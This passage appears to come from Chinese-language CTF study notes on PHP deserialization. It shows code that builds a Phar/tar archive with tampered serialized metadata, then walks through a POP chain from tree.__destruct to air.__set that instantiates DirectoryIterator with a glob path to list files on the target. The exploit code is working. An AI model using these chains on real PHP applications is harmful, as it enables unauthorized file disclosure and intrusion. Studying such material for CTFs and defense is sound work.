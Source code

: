 		  mkdir(".phar");
		  
		  file_put_contents(".phar/.metadata", str_replace(";i:5;", ";-i:5;", serialize($o)));
		  file_put_contents(".phar/test.txt", "123test.txt");
		  
		  system("tar -cf exp1.tar .phar/");
		  
		  system("gzip exp1.tar -f");
		  
		  system("rm -rf .phar exp1.tar")
		  ?>
		  ```
		- 简单的生成一个Phar文件，不多说
	- ## 通过恶意对象进行实例化
		- ```php
		  <?php
		  class air{
		    public $p;
		    public function __set($p, $value) {
		      $p = $this->p->act;
		      echo new $p($value);
		    }
		  }
		  class tree{
		    public $name;
		    public $act;
		    public function __destruct() {
		      return $this->name();
		    }
		    public function __call($name, $arg){
		      $arg[1] =$this->name->$name;
		    }
		  }
		  class apple {
		    public $xxx;
		    public $flag;
		    public function __get($flag)
		    {
		      $this->xxx->$flag = $this->flag;
		    }
		  }
		  $tree1 = new tree();
		  $tree1 -> name = new apple();
		  $tree1 -> name -> flag = "glob:///f*";
		  $tree1 -> name -> xxx = new air();
		  $tree1 -> name -> xxx -> p = new tree();
		  $tree1 -> name -> xxx -> p -> act = "DirectoryIterator";
		  ```
		- 看到air的`__set`有实例化对象
		- 要调用air的`__set`可以使用apple的`__get`
		- 要调用apple的`__get`可以使用tree的`__call`
		- 要调用tree的`__call`可以使用tree的`__destruct`
		- 所以POP链为：
		- ```
		  tree.__destruct => tree.__call => apple.__get => air.__set => 实例化
		  ```
		- 其中实例化的参数就是第四步的`$value`，也就是第三步的`$this->flag`
		- 所以：
			- ```php
			  $tree1 = new tree();
			  // 第二步
			  $tree1 -> name = new apple();
			  $tree1 -> name -> flag = "glob:///f*";
			  // 第三步
			  $tree1 -> name -> xxx = new air();